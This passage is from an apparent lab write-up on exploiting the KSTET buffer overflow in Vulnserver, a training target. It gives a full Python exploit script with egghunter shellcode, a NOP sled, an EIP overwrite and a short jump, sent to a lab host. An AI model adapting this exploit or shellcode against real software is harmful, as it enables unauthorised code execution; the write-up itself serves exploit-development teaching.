 <img src="/assets/images/vulnserver/kstet/mona-generate-egghunter.png" alt="mona-generate-egghunter" width="700"/>

We can also update the exploit to contain our egg hunter payload which will search memory for our unique string (egg). The egg is defined in the egg hunter assembly (`\x77\x30\x30\x74` = `w00t`) and you can change it if you want/need to.

```python
#!/usr/bin/env python

import socket
import sys

nopsled = '\x90' * 4
egghunter = '\x31\xdb\x53\x53\x53\x53\xb3\xc0\x66\x81\xca\xff\x0f\x42\x52\x6a'
egghunter += '\x26\x58\x33\xc9\x8b\xd4\x64\xff\x13\x5e\x5a\x3c\x05\x74\xe9\xb8'
egghunter += '\x77\x30\x30\x74\x8b\xfa\xaf\x75\xe4\xaf\x75\xe1\xff\xe7'
pre_buf = 'A' * (70 - len(egghunter) - len(nopsled))
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf =  'C' * (26 - len(jmp))
buffer = nopsled + egghunter + pre_buf + eip + jmp + post_buf
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

I ran into issues when not giving the egg hunter assembly some space to unpack itself - so suggest adding a small nopsled before the payload.

<img src="/assets/images/vulnserver/kstet/kstet-egghunter-w-nopsled.png" alt="kstet-egghunter-w-nopsled" width="700"/>
